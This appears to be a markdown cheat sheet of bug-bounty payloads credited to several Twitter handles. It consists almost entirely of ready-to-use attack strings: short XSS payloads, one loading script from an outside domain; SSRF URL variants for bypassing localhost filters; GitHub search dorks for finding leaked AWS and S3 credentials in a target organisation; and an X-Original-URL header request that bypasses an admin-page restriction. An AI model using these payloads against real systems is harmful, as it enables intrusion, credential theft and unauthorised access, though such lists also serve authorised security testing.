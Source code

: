 ## Tiny XSS payloads / from @terjanq
```
<x/oncut=alert(1)>a
<svg/onload=eval(name)>
<iframe/onload=write(URL)>
<svg/onload=eval(`'`+URL)>
<svg/onload=location=name>
<iframe/onload=src=top.name>
<iframe/onload=eval('`'+URL)>
<style/onload=eval(name)>
<style/onload=write(URL)>
<style/onload=eval(`'`+URL)>
<style/onerror=eval(name)>
<script/src=//⑮.₨><script>
```

## SSRF Bypass list for localhost (127.0.0.1) / from @LooseSecurity
```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
http://localhost.me
http://localhost.nip.io
```

##  Github dorks / from @hunter0x7
```bash
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target "AWS_ACCESS_KEY_ID"
org:Target "list_aws_accounts"
```


## Bypass admin page / from @hunter0x7
```
GET /admin HTTP/1.1
Host: http://site.com
...
Access is denied

GET /test HTTP/1.1
Host: http://site.com
X-Original-URL: /admin

HTTP/1.1 200 OK
```
